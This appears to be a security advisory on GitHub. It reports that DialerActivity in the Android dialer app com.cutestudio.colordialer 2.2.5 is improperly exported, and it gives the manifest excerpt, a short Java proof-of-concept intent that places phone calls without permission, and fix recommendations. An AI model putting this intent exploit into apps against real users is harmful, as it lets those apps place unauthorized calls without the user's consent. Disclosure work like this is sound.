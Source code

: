  ** Note: This remains unpatched as of ver. 2.2.5 **
---

## Vulnerability Report

- **Application**: `com.cutestudio.colordialer` Version: 2.2.5
- **Component**: `com.cutestudio.dialer.activities.DialerActivity`
- **Vulnerability Type**: `CWE-284: Improper Access Control`
- **Associated Risks**: Unauthorized phone calls without user interaction or any permission

  ![image](https://github.com/actuator/com.cutestudio.colordialer/assets/78701239/ae184ca4-18a8-49bb-8ca1-ed6299e10cb0)


### Description:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight results in a potential risk where unauthorized phone calls can be initiated without user consent or interaction.

### Proof of Concept:

https://github.com/actuator/com.cutestudio.colordialer/blob/main/Dialer.gif

A third-party application can craft an intent targeting `com.cutestudio.dialer.activities.DialerActivity` using the `android.intent.action.CALL` action paired with a `tel:` URI, thereby placing a phone call. The exported nature of this activity lacks any verification to authenticate the origin of the intent, leading to possible misuse.

### Code Samples:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept using 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

![Demonstration]

### Recommendations:

1. Reevaluate the `android:exported` attribute of the `DialerActivity`. If there's no strict requirement for this activity to be exposed, it is advisable to set `android:exported="false"` in the AndroidManifest.xml.
2. Should there be a necessity to maintain the exported status, a stringent intent verification mechanism should be established to guarantee that only authenticated or trusted intents access the activity.

---
